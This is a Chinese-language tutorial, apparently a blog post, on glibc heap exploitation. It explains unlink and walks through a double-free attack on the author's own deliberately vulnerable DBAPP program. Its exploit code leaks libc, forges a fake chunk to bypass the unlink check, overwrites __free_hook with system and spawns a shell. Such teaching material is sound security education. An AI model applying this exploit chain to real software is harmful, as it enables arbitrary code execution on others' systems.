




自己一直没有总结知识的习惯，这次算是特例了，从这一篇开始，我将目前我所知道的堆利用知识一一做一下总结。
## 前言

这里只对堆利用技巧做相关总结，相关基础知识请大家自己补充。以下内容都假设读者已经掌握linux下堆基础知识，不清楚的请参考[glibc内存管理ptmalloc源代码分析](https://github.com/moonAgirl/pwnstudy/tree/master/resource)。

## 先了解一下unlink

在free一块堆chunk内存时，会查看该块前后相邻的两块是否空闲，如果空闲的话则把他们从原来的链表上卸载出来和当前块合并在一起。分为向前合并和向后合并。

向前合并：

	查看下一个块是不是空闲的 – 下一个块是空闲的，如果下下个块（距离当前空闲块）的PREV_INUSE(P)位没有设置(值为0）。为了访问下下个块，将当前块的大小加到它的块指针，再将下一个块的大小加到下一个块指针。
	
	如果是空闲的，使用unlink操作合并它。将合并后的块添加到 unsorted bin 中。

向后合并：

	查看前一个块是不是空闲的 –如果当前空闲块的PREV_INUSE(P)位为0， 则前一个块是空闲的。如果空闲，合并它。

unlink操作如下：

    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;

假设执行free(q),对于向前合并，p就是指向q这个chunk块,对于向后合并，p指向的是q的前一个chunk块

unlink还需要过一个检查,如下：

    (P->fd)->bk == (P->bk)->fd ？

即判断当前这个chunk P的后一个chunk的前一个chunk与当前这个chunk P的前一个chunk 的后一个chunk是不是同一个chunk(即P)

## 再谈double-free漏洞原理

Double Free其实就是同一个指针free两次。虽然一般把它叫做double free。其实只要是free一个指向堆内存的指针都有可能产生可以利用的漏洞。double free的原理其实和堆溢出的原理差不多，都是通过unlink这个双向链表删除的宏来利用的。只是double free需要由自己来伪造整个chunk并且欺骗操作系统。

下面用我自己写的一个漏洞百出的程序来讲解一下double-free的利用细节(本系列都将基于以下这个程序来进行，程序及源码下载地址在[这里](https://github.com/moonAgirl/pwnstudy/tree/master/Article/Files/Heaps)）。

## 一个简单的列子-DBAPP

先用ida打开DBAPP分析，通过分析，可以看出这个程序包含以下几个功能：

    1.show the items in the App
    2.add a new item
    3.change the item in the App
    4.remove the item in the App
    5.exit
    
### show_item

      for ( i = 0; i <= 99; ++i )
      {
    	if ( Apps[2 * i] )
      		printf("%d : %s", (unsigned int)i, Apps[2 * i]);
      }

将Apps[2*i]指向的内容打印出来

### add_item

    printf("Please enter the length of item name:");
    read(0, &length, 8uLL);
    v2 = atoi(&length);
    for ( i = 0; i <= 99; ++i )
    {
      if ( !Apps[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        Apps[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        read(0, (void *)Apps[2 * i], v2) = 0;
        ++tatol_nums;
        return 0LL;
      }
    }

申请一块用户自定义长度的堆块，将堆块指针保存在全局变量Apps[2*i]中

### change_item

    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( Apps[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      read(0, Apps[2 * v2], v0);
	}

重写用户指定的堆块，写入长度也由用户自定义

### remove_item

 	if ( tatol_nums )
  	{
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v1 = atoi(&buf);
    if ( Apps[2 * v1] )
    {
      free(Apps[2 * v1]);
      *(&itemlist + 4 * v1) = 0;
      puts("remove successful!!");
      --tatol_nums;
    }

将用户指定的堆块释放

大家应该已经发现了，在重写堆内容时可以写入用户自定义长度的内容，这是一个漏洞；另外在free堆块时，没有将全局变量里的堆指针清0，这是另一个漏洞。好清记住这两个漏洞，下面开始利用double-free进行漏洞利用。

## double-free漏洞利用

首先泄露libc地址，并计算相关函数地址

	Add(0x80,'AAAA') #0
	Add(0x100,'AAAA') #1
	Add(0x10,'AAAA') #2
	Delete(1)
	Add(0xD0,'AAAAAAAA') #3
	Show()
	io.recvuntil('3 : AAAAAAAA')
	data = u64(io.recv(6).ljust(8,'\x00'))
	libc_base = data - malloc_hook_libc - 0x168
	free_hook_addr = free_hook + libc_base
	system_addr = system_libc + libc_base
	success('libc_base:'+hex(libc_base))
	success('free_hook_addr:'+hex(free_hook_addr))
	success('system_addr:'+hex(system_addr))

再申请两个堆块

	Add(0x100,'BBBB') #5
	Add(0x100,'BBBB') #6

此时堆内情况如下：

再将5,6号堆块free掉

	Delete(5)
	Delete(6)

此时再申请一块大小为5,6之和的堆块7，而申请的堆块7正是之前释放的5,6号堆块所在位置，如下：

我们在7号堆块内写入如下内容

		payload = p64(0) + p64(0x101)
		payload += p64(0x6020F8 - 0x18) + p64(0x6020F8 - 0x10)
		payload += 'a'*(0x100 - 4*8)
		payload += p64(0x100) + p64(0x110)

解释一下上面这个payload

		payload = p64(0) + p64(0x101)
		payload += p64(0x6020F8 - 0x18) + p64(0x6020F8 - 0x10)
		payload += 'a'*(0x100 - 4*8)

这部分是在堆块7与堆块5共享的数据部分伪造了一个fake_chunk，将fake-chunk的pre_size设置为0，size设置为0x100,fd域设置为0x6020F8 - 0x18，bk域设置为0x6020F8 - 0x10，这里这是为什么呢？0x6020F8为bss段中存储堆块5首地址的一块地址，我们在这里这样设置可以在之后的unlink操作中绕过**(P->fd)->bk == (P->bk)->fd ？** 这一判断。

	payload += p64(0x100) + p64(0x110)

这部分是将堆块7与堆块6共享的部分将chunk 6的pre_size域改为0x100,size域改为0x110

最终堆内存布局如下：

之后再将chunk 6 free一次，造成double-free，触发unlink向后合并

	Delete(6)

由于我们已经设置了fd和bk，unlink成功，最终bss中保存chunk 5堆块地址 heap_5 处变为 heap_5 - 0x18,如下图

于是我们编辑堆块5将保存堆块4地址的bss处覆盖为free_hook地址

	Change(5,17,p64(0)+p64(free_hook_addr))

再编辑堆块4，将free_hook处写入system地址

	Change(4,17,p64(system_addr)*2)

然后free一块保存有'/bin/sh'字符串的堆块，就相当于执行system(‘/bin/sh\x00')了

	Delete(0)

get shell！

## 总结

需要理解unlink,如果我这里没解释清楚，大家可以去寻找一下其他资料。double-free重要的是需要寻找一块保存当前堆块的内存地址。

